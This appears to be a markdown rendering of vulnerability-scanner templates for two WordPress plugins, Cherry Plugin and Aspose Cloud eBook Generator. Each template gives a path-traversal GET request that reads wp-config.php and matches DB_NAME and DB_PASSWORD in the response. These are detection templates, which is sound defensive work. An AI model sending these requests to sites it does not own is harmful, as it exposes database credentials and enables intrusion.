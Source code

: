 **Type - status**
- status
    1. 200

---
# Cherry Plugin \< 1.2.7 - Arbitrary File Retrieval and File Upload
## Description
- WordPress plugin Cherry \< 1.2.7 contains an unauthenticated file upload and download vulnerability, allowing attackers to upload and download arbitrary files. This could result in attacker uploading backdoor shell scripts or downloading the wp-config.php file.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php
### Matchers

**Type - word**
- words
    1. DB_NAME
    2. DB_PASSWORD
- part - body
- condition - and

**Type - status**
- status
    1. 200

---
# Wordpress Aspose Cloud eBook Generator - Local File Inclusion
## Description
- Wordpress Aspose Cloud eBook Generator is vulnerable to local file inclusion.
- severity - high
- tags - aspose,ebook,wpscan,wordpress,wp-plugin,lfi
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php
### Matchers
